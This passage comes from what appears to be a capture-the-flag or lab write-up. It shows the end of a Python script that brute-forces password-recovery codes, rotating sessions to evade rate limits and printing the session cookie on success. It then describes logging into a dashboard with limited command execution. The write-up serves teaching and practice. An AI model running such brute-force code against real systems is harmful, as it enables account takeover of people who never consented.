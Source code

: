 ```py
    for idx, code in enumerate(codes):
        if idx != 0 and idx % ROTATION_LIMIT == 0:
            session = get_new_session()
            baseline_wordcount = get_baseline_wordcount(session)
            print(f"\nSession rotated at attempt {idx}, new baseline: {baseline_wordcount}")

        response_text, wordcount = try_code(session, code)
        print(f"Attempt {idx}: Code {code}, Word Count: {wordcount}")

        if wordcount != baseline_wordcount:
            # Print both the successful code AND the current PHPSESSID cookie
            phpsessid = session.cookies.get("PHPSESSID")
            print(f"\nSuccess! Recovery code found: {code}")
            print(f"PHPSESSID: {phpsessid}")
            print(f"Response:\n{response_text}")
            break


if __name__ == "__main__":
    main()

```


---

## Dashboard Access and Limited Command Execution

After retrieving the recovery code and resetting the password, I logged into the user dashboard.

Features and limitations:

- Allowed execution of **limited commands**, notably `ls`.
- Other commands were blocked due to permissions.
- The session expired quickly, forcing automatic logout within a few moments.

Despite constraints, this access confirmed user privilege and provided a foothold in the application.

![Dashboard Command Execution](./Images/web_1337_dashboard.jpg)

---